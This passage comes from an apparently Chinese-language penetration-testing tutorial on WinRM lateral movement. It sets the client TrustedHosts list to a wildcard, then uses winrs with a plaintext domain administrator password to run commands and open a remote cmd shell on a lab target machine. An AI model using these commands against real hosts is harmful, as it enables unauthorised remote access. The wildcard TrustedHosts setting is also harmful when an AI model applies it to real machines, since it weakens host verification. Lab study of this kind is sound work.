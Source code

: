 	客户端和服务端两者TrustedHosts列表中的计算机都要添加验证 (客户端也需要验证，可能利用起来略显麻烦)
	winrm set winrm/config/Client @{TrustedHosts="*"}

![](images/16.png)

在靶机执行```whoami``` 查询当前用户：

![](images/21.png)

远程执行命令：

	winrs -r:http://10.10.40.53:5985 -u:lmrsec\administrator -p:123.bmk!! "ipconfig"

![](images/20.png)

弹出cmd：

	winrs -r:http://10.10.40.53:5985 -u:lmrsec\administrator -p:123.bmk!! cmd
